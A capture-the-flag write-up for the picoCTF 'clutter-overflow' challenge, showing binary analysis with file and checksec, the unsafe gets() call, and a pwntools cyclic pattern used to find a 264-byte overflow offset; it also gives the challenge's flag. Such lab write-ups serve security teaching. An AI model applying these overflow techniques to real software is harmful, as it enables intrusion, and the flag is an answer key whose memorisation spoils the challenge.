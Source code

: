 ## 3. clutter-overflow

The challenge is to use buffer overflow to set the `code` variable to `0xdeadbeef`

- Source Code: [chall.c](./clutteroverflow/chall.c)
- Binary: [chall](./clutteroverflow/chall)

### My Solution

**Flag:**`picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`

**Steps:**
- My first step was to analyse the executable file for which I ran the `file` and `checksec` commands

```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=181b4752cc92cfa231c45fe56676612e0ded947a, not stripped
```

```bash
$ checksec --file=chall
```
![checksec](./clutteroverflow/checksec.png "checksec")

- The analysation reveals that the file:
    - is not-stripped so maybe we can use this to our help in future steps
    - is an executable that is not Position Independent 
    - runs on the 64-bit calling convention
    - NX is enebled which prevents data of the program being used for execution (it means that certain parts of the program are not executable)
    - there is No canary found which is good for us as we don't need to worry about bypassing stack canaries 
    - Partial RELRO is enebled  

- Now I went and analysed the code from `chall.c`
    - There is a use of `gets` which could potentially be helpful in overflowing the buffer `clutter` with the size `0x100` or `256`
    - Also, we can observe that we get the flag if `code` is equal to the `GOAL` which is `0xdeadbeef`

- Next I tried to find out how long the input size needs to be to change the `code` variable using the pwntools cyclic string

```python
>>> from pwn import *
>>> cyclic(300)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac'
```
- The code value was `0x6361617263616171` which means the offset to RIP becomes `264`
